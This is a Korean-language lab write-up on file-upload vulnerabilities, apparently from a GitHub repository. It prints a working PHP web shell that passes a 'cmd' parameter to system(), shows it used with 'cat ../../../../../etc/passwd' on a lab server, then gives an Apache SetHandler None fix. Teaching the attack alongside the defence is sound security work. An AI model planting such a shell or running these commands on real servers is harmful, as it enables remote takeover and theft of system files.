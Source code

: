 # 파일 업로드 모의해킹
파일 업로드 모의해킹은 웹 사이트에서 파일을 업로드할 때, 업로드 된 파일이 악성 코드를 포함하고 있는지 확인하지 않아 발생하는 보안 취약점입니다.

## 공격 실습

![file_upload](https://github.com/Tree1st/HK/blob/master/webH/image/fileUpload/file_upload.png)

공격에 사용될 웹쉘 파일을 업로드 합니다. 웹쉘(Web Shell)은 웹을 통해 원격에서 서버에 접근하여 명령어를 실행할 수 있는 프로그램입니다. 웹쉘은 서버의 취약점으로부터 공격자가 접근한 후, 웹상에서 명령어를 실행하고 서버를 제어할 수 있습니다.

다음은 웹쉘 코드(webshell.php)의 예시 입니다.
```php
<?php

echo 'Enter a Command:<br>';
echo '<form action="">';
echo '<input type=text name="cmd">';
echo '<input type="submit">';
echo '</form>';					

/*
	echo 부분은 명령어를 입력받을 수 있는 폼을 제공
    공격자가 입력 폼에 명령어를 입력하면 cmd 파라미터를 통해 전달된다.
*/

if(isset($_GET['cmd'])){
	system($_GET['cmd']);
}
//system 함수를 통해 전달된 명령어가 실행된다.

?>
```

업로드된 파일의 다운로드 주소를 살펴보면 `http://192.168.219.180/upfiledata/webshell.php` 이와같이 설정되어있음을 알 수 있습니다.    
이 주소로 이동하면 다음과같이 명령어를 실행시킬 수 있는 웹쉘이 실행됨을 볼 수 있습니다.
<br><br>

![file_upload_webshell](https://github.com/Tree1st/HK/blob/master/webH/image/fileUpload/file_upload_webshell.png)

위와같이 입력란에 `cat ../../../../../etc/passwd` 를 입력하여 passwd 파일을 탈취할 수 있습니다.

## 방어 실습

![fileupload_apacheconf](https://github.com/MLTree2/HK/blob/master/webH/image/fileUpload/file_upload_apache2conf.png)

Apache 설정파일인 apache2.conf 파일에서 파일이 업로드되는 경로의 Directory 설정에 `FilesMatch "\.*$"` 를 이용하여 모든 파일에 대하여 `SetHandler None`을 설정합니다. <br>
`SetHandler None`을 설정하면 웹 서버는 어떤 핸들러도 사용하지 않습니다. 이는 일반적으로 정적인 파일을 서비스하는 데 사용됩니다. <br>
즉, 요청된 파일을 그대로 반환하거나, 디렉토리 목록을 표시하지 않고 요청된 파일을 클라이언트에게 제공하여 파일이 웹서버에서 실행되지 않도록 합니다. 

![fileupload_a_result](https://github.com/MLTree2/HK/blob/master/webH/image/fileUpload/file_upload_a_result.png)

`SetHandler None`설정을 적용한 후 기존의 FileUpload 공격을 수행하면 다음과같이 웹쉘 파일이 실행되지 않고 그대로 내용이 나오는것을 확인 할 수 있습니다. 
